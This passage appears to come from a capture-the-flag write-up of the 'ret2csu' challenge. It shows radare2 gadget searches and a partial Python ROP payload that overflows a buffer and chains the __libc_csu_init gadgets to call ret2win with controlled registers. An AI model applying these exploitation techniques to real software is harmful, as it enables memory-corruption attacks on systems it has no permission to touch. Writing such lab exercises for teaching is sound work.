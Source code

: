 A quick check with `radare2` tells us...

```
r2 ret2csu
/R pop rdi
#  0x004006a3                 5f  pop rdi
#  0x004006a4                 c3  ret

/R pop rsi
#  0x004006a1                 5e  pop rsi
#  0x004006a2               415f  pop r15
#  0x004006a4                 c3  ret

/R pop rdx
# no result ;-(

/R mov rdx
#  0x004004d8               0b20  or esp, dword [rax]
#  0x004004da             004885  add byte [rax - 0x7b], cl
#  0x004004dd         c07402ffd0  sal byte [rdx + rax - 1], 0xd0
#  0x004004e2           4883c408  add rsp, 8
#  0x004004e6                 c3  ret
#
#  0x0040067e               0000  add byte [rax], al
#  0x00400680             4c89fa  mov rdx, r15
#  0x00400683             4c89f6  mov rsi, r14
#  0x00400686             4489ef  mov edi, r13d
#  0x00400689           41ff14dc  call qword [r12 + rbx*8]
```

While we have two easy gadgets for `rdi`and `rsi`, the third argument `rdx`
proves much harder to control.

`radare2`'s first gadget suggestion is useless, we recognize the second result
to be the second gadget from the `ret2csu` technique.

Take to attention that `call *(%r12,%rbx,8)` will calculate an address using
the formula `r12+(rbx*8)`, then *dereference* it and jump to whatever address
is found at that pointer.

In other words, `r12+(rbx*8)` needs to point to a pointer that points to the
instruction to jump to.

I first thought this would be really easy, we can just store zero into `rbx`
and `ret2win`'s offset from the GOT:

```python3
RIP_OFFSET = 40

payload  = b'A'*RIP_OFFSET

payload += p64(rop.rdi.address)    # r12
payload += p64(0xdeadbeefdeadbeef) # rdi

payload += p64(0x0040069a)         # rbx, rbp, r12, r13, r14, r15
payload += p64(0x00)               # rbx
payload += p64(0x00)               # rbp
payload += p64(elf.got['ret2win']) # r12
payload += p64(0xdeadbeefdeadbeef) # r13 -> edi (rdi)
# Well fuck: https://stackoverflow.com/questions/11177137/why-do-x86-64-instructions-on-32-bit-registers-zero-the-upper-part-of-the-full-6
payload += p64(0xcafebabecafebabe) # r14 -> rsi
payload += p64(0xd00df00dd00df00d) # r15 -> rdx
payload += p64(0x00400680)         # mov rdx, r15; mov rsi, r14, mov edi, r13d; call qword [r12 + rbx*8]
# call happens here
```
